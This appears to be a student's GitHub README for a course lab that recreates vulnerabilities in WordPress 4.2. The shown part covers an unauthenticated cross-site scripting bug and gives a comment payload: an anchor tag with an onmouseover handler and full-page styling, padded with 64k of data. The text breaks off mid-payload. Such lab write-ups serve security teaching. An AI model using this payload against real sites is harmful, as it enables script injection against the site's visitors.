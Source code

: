 # Week-7-Project
WordPress vs. Kali
> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

1.) WordPress version 4.2 : Unauthenticated XSS (Cross Site Scripting)
- [ ] Summary:
   - Type of vulnerability: Cross Site Scripting
   - Fixed in version 4.2.1
   - Tested in version 4.2
- [ ] GIF Walkthrough:![](https://i.imgur.com/9udE06b.gif)
-[ ] Steps to recreate: Use the following to comment on a WordPress Post: 
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px <insert 64k of random data
